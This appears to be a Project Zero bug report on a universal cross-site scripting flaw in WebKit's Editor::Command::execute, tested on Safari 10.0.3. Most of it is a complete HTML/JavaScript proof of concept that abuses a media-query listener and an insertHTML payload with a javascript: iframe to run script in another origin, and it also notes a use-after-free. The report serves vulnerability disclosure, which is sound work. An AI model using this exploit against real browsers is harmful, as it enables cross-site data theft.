 # UXSS via Editor::Command::execute

### Reported by <mailto:lokihardt@google.com>, Feb 16 2017

Here's a snippet of `Editor::Command::execute` used to handle |document.execCommand|.

```cpp
bool Editor::Command::execute(const String& parameter, Event* triggeringEvent) const
{
    if (!isEnabled(triggeringEvent)) {
        // Let certain commands be executed when performed explicitly even if they are disabled.
        if (!allowExecutionWhenDisabled())
            return false;
    }
    m_frame->document()->updateLayoutIgnorePendingStylesheets();
    return m_command->execute(*m_frame, triggeringEvent, m_source, parameter);
}
```

This method is invoked under an |EventQueueScope|. But |updateLayoutIgnorePendingStylesheets| invokes |MediaQueryMatcher::styleResolverChanged| that directly calls |handleEvent| not affected by |EventQueueScope|. So it may end up to fire javascript handlers(|listener| in PoC). If we replace the document in that handler, |m_command| will be executed on the new document's focused element. We can use # in URL to give a focus.

Note 1: The PoC also trigger a UAF. So I recommend to test it on a release build. [ASAN log]('./asan.log.txt')
Note 2: If the PoC doesn't work, adjust sleep().

Tested on Safari 10.0.3(12602.4.8).

PoC:

```html
<html>

<body>
  Click Anywhere.
  <script>
    function sleep(ms) {
      let start = new Date();
      while (new Date() - start < ms) {

      }
    }

    window.onclick = () => {
      window.onclick = null;

      document.designMode = 'on';
      document.execCommand('selectAll');

      let f = document.body.appendChild(document.createElement('iframe'));
      let media_list = f.contentWindow.matchMedia("(max-width: 100px)");

      function listener() {
        let a = document.createElement('a');
        a.href = 'https://bugs.webkit.org/#quicksearch_top';
        a.click();

        sleep(1000);

        window.showModalDialog(URL.createObjectURL(new Blob([
          `
<script>
let it = setInterval(() => {
try {
    opener.document.x;
} catch (e) {
    clearInterval(it);

    setTimeout(() => {
        window.close();
    }, 2000);
}
}, 100);
</scrip` + 't>'
        ], {
          type: 'text/html'
        })));
      }

      media_list.addListener(listener);
      document.execCommand('insertHTML', false, 'aaa<a-a></a-a><iframe src="javascript:alert(parent.location)"></iframe>');
    };
  </script>
</body>

</html>
```

Link: https://bugs.chromium.org/p/project-zero/issues/detail?id=1133
